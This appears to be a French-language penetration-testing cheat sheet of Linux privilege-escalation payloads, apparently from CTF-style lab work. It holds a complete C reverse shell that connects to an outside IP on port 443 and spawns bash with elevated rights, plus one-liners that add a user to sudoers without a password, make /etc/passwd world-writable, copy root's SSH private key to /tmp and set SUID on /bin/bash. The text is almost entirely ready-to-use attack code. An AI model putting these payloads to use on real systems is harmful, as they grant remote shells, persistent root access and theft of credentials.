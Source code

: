 
> [!TIP]
> Liste de payloads qui executés en root nous permettent de privesc

- [[#SUID / SGID]]
- [[#Reverse Shells]]
- [[#Ajout du user au groupe sudoers]]
- [[#Modifier droits sur /etc/passwd]]
- [[#Copier clé privée ssh root dans /tmp]]
- [[#Setuid sur /bin/bash]]


---
# SUID / SGID

> [!TIP]
> Si privesc à partir d'un SUID / SGID, penser a rajouter "setuid(geteuid());" dans le payload afin qu'il s'execute avec le SUID.

***Reverse-Shell.c**

```
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    setuid(geteuid());
    int port = 443;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.14.177");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/bash", NULL};
    execvp("/bin/bash", argv);

    return 0;       
}
```

```
gcc Reverse-Shell.c -o Reverse-Shell
```


---
# Reverse Shells


[[SHELLS#**REVERSE SHELLS**]]



---
# Ajout du user au groupe sudoers


```sh
echo "<user> ALL=NOPASSWD:ALL" >> /etc/sudoers
```


---
# Modifier droits sur /etc/passwd

> [!tip]
> Retirer le pass pour le compte root (x) ou rajouter un user avec l'uid 0 afin d'usurper root


```sh
chmod o+w /etc/passwd
```



---

# Copier clé privée ssh root dans /tmp


```sh
cp /root/.ssh/id_rsa /tmp
```


---

# Setuid sur /bin/bash

> [!TIP]
> executer ``/bin/bash -p`` une fois le payload exécuté


```sh
chmod u+s /bin/bash
```